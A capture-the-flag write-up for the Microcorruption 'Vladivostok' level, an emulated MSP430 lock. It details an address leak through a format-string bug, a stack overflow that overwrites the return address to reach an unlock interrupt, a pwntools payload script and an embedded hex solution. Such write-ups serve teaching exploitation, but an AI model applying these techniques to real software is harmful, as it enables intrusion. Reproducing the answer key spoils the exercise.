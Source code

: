 # Vladivostok
> sourse code [here](./dump.asm)  
> **Vulnerability**: stack buffer overflow  
> **Mitigation**: ASLR  

## Analysis
pseudo code for `main`, assembly code [here](./dump.asm)
```c
void main() {
    uint16_t base = (rand() & 0x7ffe) + 0x6000;
    uint16_t sp_base = rand();
    memcpy(base, 0x4400, 0x1000);           // 0x4400 = base of text section
    sp_base = (base - (sp_base & 0xffe)) + 0xff00;
    void (*func)(uint16_t) = base + 0x35c;
    sp = sp_base;       // rebase stack pointer
    func(base);         // call <func>
}
```

What the `<main>` does is actually just rebase both the text section and the stack pointer with a random number.

`memcpy` copy the entire section and thus, `func` is actually the same as `0x4400 + 0x35c = 0x475c`. Therefore, the program will jump to `0x475c` after rebasing the stack pointer and `0x475c` is the start of `<aslr_main>`.

pseudo code for `<aslr_main>`, assembly code [here](./dump.asm)
```c
void aslr_main(uint16_t base) {
    void (*func)() = base + 0x82;
    func();
}
```
`<aslr_main>` simply just call `base + 0x82` which will be the same as what is `@ 0x4482`, which is the start of `<_aslr_main>`.

### High Level Call Graph
```text
... -> <main> -> <aslr_main> -> <_aslr_main> -> ...
```
Also, the main logic of the program is in `<_aslr_main>`.

### `<_aslr_main>`
```c
void _aslr_main() {
    /* null out the original text section, 0x4400 */
    ...
    gets(username, 8);      // username @ 0x2426
    printf(username);       // vulnerable to Format String Vulnerability, able to leak address
    ...
    gets(password, 20);     // password on the stack, stack buffer overflow
    ...
    return;
}
```
The program null out the original text section. Therefore, we need a leak in order to find the address of the function we want to call.

`gets(username, 8)` has a strict restriction on the length of the input, which is 8 bytes, so it is impossible to use the *Format String Vulnerability* to setup for *directly* overwriting the return address. However, we can find that at the point of `printf(username)`, the stack is setup as follows:
```text
(pc = 0x9622)
> r sp
8976: 2624 0000 a897 0000 0000 b679 3e94 a297  &$.........y>...
8986: 7844 0000 0000 0000 0000 0000 0000 0000  xD..............
```
That is, `0x97a8` the address of `printf` after rebase is on the stack which can be leaked with the **2nd `%x`**.

Following is the assembly code related to get input for `password`:
```asm
4482:  0b12           push	r11
4484:  0a12           push	r10
4486:  3182           sub	#0x8, sp
...
4688:  0b41           mov	sp, r11 
468a:  2b52           add	#0x4, r11       ; r11 = sp + 4
468c:  3c40 1400      mov	#0x14, r12      ; r12 = 0x14
4690:  2d43           mov	#0x2, r13
4692:  0c12           push	r12
4694:  0b12           push	r11
4696:  0d12           push	r13
4698:  0012           push	pc
469a:  0212           push	sr
469c:  0f4d           mov	r13, r15
469e:  8f10           swpb	r15
46a0:  024f           mov	r15, sr
46a2:  32d0 0080      bis	#0x8000, sr
46a6:  b012 1000      call	#0x10           ; trigger interrupt
```
The return address is at `sp + 0xc` and the input starts at `sp + 4` with maximum `0x14` bytes of input. That is, with the padding of `8` bytes, the following 2 bytes will be able to overwrite the return address of `<_aslr_main>`.

### Where to jump to?
From the [assmebly](./dump.asm), we can find multiple places where it calls the interruption and all we need is to utilize one of them and trigger an unlock.

1. `0x4904` for `<INT>`
    To trigger `INT 0x7f`, `r15` is needed to be set to `0x7f`, which seems a bit impossible.
2. `0x48ea` for `<_INT>`
    To trigger the unlock, `sp + 2` needed to be set to `0x7f`. That is, pad 2 bytes after the return address and put `0x7f` right after it would be able to trigger.

Therefore, `password` should be `8` bytes of padding + return address, `0x48ea` after rebase + `2` bytes of padding + `0x7f`.

### Trick for still able to view execution in **Disassembly**
Since on the [microcorruption](https://microcorruption.com/) website, we will only be able to view the execution in the disassembly window when the executed instruction is **originally disassembled**. Therefore, with all the *aslr* and *rebasing*, we will not be able to view the execution in the disassembly window. So, I did a simple trick to make it work.

1. set **1st breakpoint** at `0x4476` which is in `<main>` right before the call to `<aslr_main>`
2. set the **2nd breakpoint** at `0x4494`, which is in `<_aslr_main>`, at the beginning of the *loop* for nulling out the original text section
3. run the program and wait for the **1st breakpoint** to hit
4. modify the value for `r13` and `r15`
   - `r13` is the function pointer for `<aslr_main>`
        - `let r13 = 0x475c`
   - `r15` is the argument for `<aslr_main>`, which is the base address
        - `let r15 = 0x4400`
5. continue the program and wait for the **2nd breakpoint** to hit 
6. modify the value for `pc` from `0x4494` to `0x44a0` and start debugging/analyzing the program as normal
    - The modification of `pc` is to skip the nulling out of the original text section s.t. the program can still be executed as intended

## Exploit
<details>
<summary>Simple script transfer to *hex*</summary>

```python
def b2hex(b):
    return ''.join(f'{c:02x}' for c in b)
```
</details>

1. leak using *Format String Vulnerability*
    - `printf` is called with the user input, `username` directly
    - therefore, it is vulnerable to *Format String Vulnerability*
    - leak the address of `printf`, at the 2nd argument, after rebase

    ```python
    username = b'%x||%x||'
    ```
    ```python
    In [26]: b2h(b'%x||%x||')
    Out[26]: '25787c7c25787c7c'
    ```
2. *Stack Buffer Overflow* to overwrite return address
    - 8 bytes of padding before the return address
    - calculate the offset with the leak to overwrite the return address
        - `0x48ec` is the address of `<_INT>`
        - `<_INT>` use `sp + 2` to determine which interrupt to call
    - setup the value 2 bytes after the return address to `0x7f` to trigger the unlock

    ```python
    password = b2h(b'a' * 8 + p16(leak - (0x476a - 0x48ec)) + b'b' * 2 + p16(0x7f)) 
    ```

```python
from pwn import *
username = b'%x||%x||'
leak = (address leak from the output of the program)
password = b'a' * 8 + p16(leak - (0x476a - 0x48ec)) + b'b' * 2 + p16(0x7f)
```

<!-- solution: {'level_id': 15, 'input': '25787c7c25787c7c;61616161616161617e8662627f00;'} (value might differ due to ASLR) -->
